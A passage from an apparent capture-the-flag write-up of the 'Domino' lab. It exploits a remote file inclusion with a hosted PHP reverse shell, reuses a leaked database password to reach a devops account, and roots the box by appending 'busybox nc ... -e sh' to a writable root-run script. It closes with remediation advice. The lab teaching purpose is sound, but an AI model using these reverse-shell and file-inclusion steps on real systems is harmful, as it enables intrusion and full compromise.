

The **Admin** tab is now available, confirming that the forged cookie successfully elevated the session to the administrator role. The administrator panel also reveals the second flag.

## Remote File Inclusion

With administrator-level access established, the next objective is to determine whether the application's file retrieval functionality can be abused to execute code on the server.

The `/api/files.php?name=` endpoint previously allowed access to local files. Since the endpoint accepts a user-controlled file path, it can also be tested with a remote resource.

**Remote File Inclusion (RFI)** occurs when an application accepts a user-controlled file location and loads or executes a file from a remote server. If executable content is accepted, this can result in **Remote Code Execution (RCE)**.

To test this behaviour, the PHP reverse shell from [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) is used and hosted on the AttackBox. The payload is saved as `monkey.php`, with the `$ip` and `$port` variables configured to point to the AttackBox.

A Netcat listener is started on the selected port:

```bash
sudo nc -lvnp 4444
```

The PHP payload is then hosted using a Python web server:

```bash
python3 -m http.server
```

The application can now be requested with the remote URL as the `name` parameter:

```bash
curl -s "http://10.112.187.210/api/files.php?name=http://10.112.77.141:8000/monkey.php" -H "Authorization: Bearer <Forged Token>"
```

The request causes the target to retrieve the remotely hosted PHP file. The AttackBox web server receives a request for `monkey.php`, confirming that the application is fetching the remote resource.



The Netcat listener receives a connection, providing a shell running as `www-data`. This confirms that the Remote File Inclusion vulnerability can be escalated to Remote Code Execution. The third and final flag is located at `/opt/flag3.txt`.



## Accessing the DevOps Account

The next flag requires access to the `devops` user's home directory. Earlier, the application's `config.php` file disclosed several credentials, including the value of `DB_PASS`. Since password reuse is a common issue, it can be testd whether this value is also used as the `devops` user's password.

Using the existing shell, switch to the `devops` account with:

```bash
su devops
```

Enter the value of `DB_PASS` when prompted. The authentication succeeds, confirming that the database password has been reused for the devops account. The user's home directory contains the next flag:

```bash
cat /home/devops/user.txt
```



## Monitoring Processes with `pspy64`

Since the SSH service was identified during the initial enumeration, a more stable session can be established by connecting to the target as `devops`.

```bash
ssh devops@10.112.187.210
```

To identify processes that may provide a privilege escalation opportunity, `pspy64` can be used. **Pspy** is a process monitoring tool that allows users to observe commands and processes executed on a Linux system without requiring root privileges.

[Download `pspy64`](https://github.com/dominicbreuker/pspy) to the AttackBox and start a Python web server from the directory containing the tool. Back on the target machine, download the tool and make it executable:

```bash
wget http://10.112.77.141:8000/pspy64
chmod +x ./pspy64
```



Running the tool reveals a `health_report.sh` script being executed by `root` which has `UID=0`.



The script can be investigated to determine whether the `devops` account has permission to modify it.

```bash
ls -lah /opt/monitoring/health_report.sh
```

The output shows that `devops` has both read and write permissions over the script.



The script contains the following:

```bash
#!/bin/bash
# NexusCorp Health Monitoring Script
LOG_FILE="/var/log/nexus_health.log"
TIMESTAMP=$(date "+%Y-%m-%d %H:%M:%S")
echo "[$TIMESTAMP] Health check started" >> "$LOG_FILE"
systemctl is-active --quiet apache2 && echo "[$TIMESTAMP] Apache: OK" >> "$LOG_FILE" || echo "[$TIMESTAMP] Apache: DOWN" >> "$LOG_FILE"
systemctl is-active --quiet mysql && echo "[$TIMESTAMP] MySQL: OK" >> "$LOG_FILE" || echo "[$TIMESTAMP] MySQL: DOWN" >> "$LOG_FILE"
DISK=$(df -h / | awk "NR==2{print \$5}")
echo "[$TIMESTAMP] Disk: $DISK" >> "$LOG_FILE"
```



Because the script is executed by `root` and can be modified by `devops`, commands added to the script will execute with root privileges when the script runs.

Therefore, a reverse shell payload can be added to the script. The payload was generated using [revshells.com](https://www.revshells.com/).

```bash
busybox nc 10.112.77.141 4445 -e sh
```

On the AttackBox, start a Netcat listener on the corresponding port:

```bash
sudo nc -lvnp 4445
```



Once the scheduled execution occurs, the modified script is executed by `root` and a connection is received by the listener.

The resulting shell runs with root privileges. The current user can be confirmed as `root` and the final flag can be retrieved:

```bash
whoami
cat root.txt
```



This completes the privilege escalation from the `devops` account to `root`.

# Conclusion

This assessment demonstrated how multiple weaknesses within the **Domino** web application could be chained together to progress from a low-privileged user to Remote Code Execution and ultimately full compromise of the underlying Linux system.

The attack began with web application enumeration and user enumeration, which enabled the discovery of valid credentials through password reuse. After obtaining an authenticated session, an Insecure Direct Object Reference (IDOR) exposed information belonging to an administrative account. Additional weaknesses in the application's authentication and token handling mechanisms, combined with information disclosed through the application's configuration, enabled the manipulation of authentication tokens and access to administrative functionality. The administrative access then allowed exploitation of a Remote File Inclusion (RFI) vulnerability to obtain a shell on the server. Finally, reused credentials provided access to the `devops` account, where a root-owned monitoring script with writable permissions enabled privilege escalation to `root`.

The assessment highlights the importance of evaluating vulnerabilities as part of the wider application attack surface rather than considering each issue in isolation. Weak access controls, credential reuse, insecure token handling, unsafe file inclusion and excessive file permissions each contributed to the overall attack path. Addressing these weaknesses would significantly reduce the likelihood of an attacker progressing from a low-privileged web account to full system compromise.

---

# Remediation Recommendations

The compromise of the Domino environment was achieved by chaining several independent weaknesses across the web application and underlying operating system. The following recommendations would help reduce the attack surface and prevent similar attack paths.

| Finding | Recommendation |
|---------|----------------|
| **User Enumeration** | Avoid exposing unnecessary employee information. |
| **Password Reuse** | Enforce unique passwords between application, database and system accounts. Privileged and service accounts should use dedicated credentials that are not reused across services. |
| **Insecure Direct Object Reference (IDOR)** | Enforce authorisation checks on the server for every object and resource request. Access should be determined by the authenticated user's permissions rather than user-controlled identifiers. |
| **Cross-Site Scripting (XSS)** | Properly validate and encode user-controlled data before rendering it in HTML responses. Apply an appropriate Content Security Policy where possible to provide an additional layer of protection. |
| **JWT Security** | Validate JWT signatures and claims server-side, use strong signing secrets, and ensure that token contents cannot be trusted or modified by the client. Sensitive authorisation decisions should not rely solely on client-controlled token data. |
| **Information Disclosure** | Remove sensitive credentials and configuration details from files that can be accessed through the application. Production systems should not expose configuration files or other internal resources to unauthorised users. |
| **Remote File Inclusion (RFI)** | Do not allow user-controlled input to determine remote resources that the server will retrieve or execute. Restrict file access to an allowlist of expected resources and disable unnecessary remote file inclusion functionality. |
| **Credential Storage** | Store application and system credentials securely using appropriate secret-management mechanisms. Credentials should not be exposed in application configuration files or reused between unrelated accounts. |
| **Writable Root-Executed Script** | Ensure scripts executed by `root` cannot be modified by lower-privileged users. Monitoring and maintenance scripts should be owned by `root` and protected with restrictive permissions. |
| **Privilege Separation** | Apply the principle of least privilege to service and user accounts. Processes and scheduled tasks should operate with only the permissions required for their intended functions. |

Implementing these measures would address the individual vulnerabilities identified during the assessment and, more importantly, break the attack chain that allowed the application compromise to progress into full system access.